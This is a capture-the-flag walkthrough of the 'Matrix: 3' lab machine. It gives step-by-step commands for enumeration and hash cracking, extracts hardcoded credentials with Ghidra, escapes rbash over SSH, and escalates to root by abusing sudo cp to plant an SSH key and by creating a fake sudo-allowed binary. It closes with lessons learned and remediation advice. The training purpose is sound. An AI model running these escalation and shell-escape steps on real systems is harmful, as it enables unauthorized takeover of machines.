



# Matrix: 3 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.104 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Read `/root/flag.txt` |
| **Source** | [HackingArticles](https://www.hackingarticles.in/matrix-3-vulnhub-walkthrough/) |

## Attack Summary

Find hidden credentials via directory enumeration and image filename analysis, crack a hash from a gzip-disguised text file, use Ghidra to reverse a DOS executable for a second credential set, escape an rbash restriction over SSH, chain two `sudo cp` and `sudo ./oracle` privilege escalation steps through users `guest` and `trinity`, then create a fake `oracle` binary to get a root shell.

## Methodology

1. Reconnaissance (netdiscover + nmap)
2. Web enumeration (dirb, image filename hint, `secret.gz`)
3. Hash cracking
4. Binary analysis with Ghidra (DOS executable)
5. SSH with rbash escape
6. Privilege escalation via abusing sudo rights (cp + custom binary)

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Target identified at **192.168.1.104**.

## Step 2: Reconnaissance

```bash
nmap -p- -A 192.168.1.104
```


Key open ports:

| Port  | Service | Notes |
|-------|---------|-------|
| 80    | HTTP    | Apache — no useful content on main page |
| 6464  | SSH     | OpenSSH |
| 7331  | HTTP    | Basic Authentication protected |

## Step 3: Web Enumeration on Port 80

Run dirb to discover hidden directories:

```bash
dirb http://192.168.1.104/
```

The `/assets/img/` directory contains `Matrix_can-show-you-the-door.png`. The filename itself is the clue: navigate to `/Matrix`.

The `/Matrix` path is a directory listing requiring an alphanumeric sub-path. Based on the film theme (Neo, the actor's name, and a numeric hint), try:

```
http://192.168.1.104/Matrix/n/e/o/6/4
```

This reveals `secret.gz`. Download it:

```bash
wget http://192.168.1.104/Matrix/n/e/o/6/4/secret.gz
file secret.gz
# secret.gz: ASCII text (mislabelled extension)
cat secret.gz
```

The file contains a username and a hash. Crack the hash with an online tool or with hashcat/john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt secret.gz
# Password: passwd
```


## Step 4: Enumerate Port 7331 with Basic Auth

Log in to `http://192.168.1.104:7331` with `admin:passwd`. The page is empty, but directory enumeration with credentials reveals a `/data` directory:

```bash
dirb http://192.168.1.104:7331/ -u admin:passwd
```

The `/data` directory contains a file. Download it and check its type:

```bash
wget http://192.168.1.104:7331/data/<filename>
file <filename>
# MS-DOS executable
```

## Step 5: Reverse the DOS Binary with Ghidra

Import the binary into Ghidra, run auto-analysis, and inspect string references and the main function. Hardcoded credentials are visible:

```
Username: guest
Password: 7R1n17yN30
```



## Step 6: SSH as guest (rbash escape)

```bash
ssh guest@192.168.1.104 -p 6464
# The shell drops into rbash (restricted bash)
```

Bypass rbash by forcing bash to ignore the profile:

```bash
ssh guest@192.168.1.104 -p 6464 -t "bash --noprofile"
```

Check sudo rights:

```bash
sudo -l
# (trinity) NOPASSWD: /bin/cp
```

## Step 7: Escalate to trinity via sudo cp

Generate an SSH key pair:

```bash
ssh-keygen -f /tmp/id_rsa -N ""
chmod 777 /tmp/id_rsa.pub
cp /tmp/id_rsa.pub /home/guest/id_rsa.pub
```

Use sudo cp to place the public key into trinity's authorized_keys:

```bash
sudo -u trinity /bin/cp /home/guest/id_rsa.pub /home/trinity/.ssh/authorized_keys
```

SSH in as trinity:

```bash
ssh trinity@127.0.0.1 -i /tmp/id_rsa -p 6464
```

Check trinity's sudo rights:

```bash
sudo -l
# (root) NOPASSWD: /home/trinity/oracle
```



## Step 8: Root via Custom oracle Binary

The `oracle` file does not exist. Create one that launches a shell:

```bash
echo "/bin/sh" > /home/trinity/oracle
chmod 777 /home/trinity/oracle
sudo ./oracle
```

You now have a root shell:

```bash
id
# uid=0(root) gid=0(root)
cat /root/flag.txt
```



## Lessons Learned

1. Obscure URL paths (e.g., `/Matrix/n/e/o/6/4`) are discoverable by mirroring the site or following filename hints.
2. Binary files should be reverse-engineered: hardcoded credentials in a DOS executable are a critical finding.
3. Sudo rules for `/bin/cp` are dangerous — an attacker can overwrite any file the target user owns, including SSH `authorized_keys`.
4. Sudo rules referencing non-existent files allow attackers to create those files with arbitrary content.
5. Restricted shells (rbash) can often be escaped with `--noprofile` or by invoking a different shell binary.

## Remediation

| Vulnerability | Fix |
|---|---|
| Hardcoded credentials in binary | Use environment variables or a secrets manager; never embed credentials in code |
| Sudo cp (file write as another user) | Restrict sudo rules to specific, non-abusable binaries |
| Sudo oracle (non-existent path) | Ensure sudo-allowed binaries exist and are not world-writable |
| rbash bypass | Enforce login shell restrictions at the PAM or SSH `ForceCommand` level |
| Basic Auth with weak password | Enforce strong passwords; prefer certificate-based or token-based authentication |
